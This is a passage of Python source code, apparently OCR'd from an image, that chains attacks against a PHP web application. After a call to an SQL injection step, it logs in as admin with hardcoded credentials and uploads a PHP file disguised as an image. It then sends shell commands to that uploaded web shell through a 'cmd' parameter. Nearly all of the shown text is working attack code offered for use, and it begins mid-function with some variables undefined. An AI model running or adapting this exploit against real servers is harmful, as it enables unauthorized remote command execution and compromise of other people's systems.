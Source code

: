 ```python
    url="http://" + target + path
    payload={'user':'admin', 'password':'P4ssw0rd'}
    r=requests.post(url, data=payload, verify=False)
    print(r.status_code)
    return(r.cookies['PHPSESSID'])

def file_upload(target,idcookies):
    path="/admin/index.php"
    url = "http://" + target + path
    payload = {'title':"hpl", 'category':'1', 'Add':'Add'}
    files={'image':('lovecraft.php3',open(path_file,'rb'),'application/x-php')}
    cookies=dict(PHPSESSID=idcookies)
    r= requests.post(url, files=files, data=payload, cookies=cookies, verify=False)

def remote_console(target,command):
    path="/admin/uploads/lovecraft"
    url = "http://" + target + path
    payload = {'cmd':command}
    r=requests.get(url, params=payload, verify=False)
    print(r.text)

def main():
    sqli(target)
    idcookies=login(target)
    file_upload(target,idcookies)
    remote_console(target, command)
	
#start

if __name__=="__main__":
    main()

```

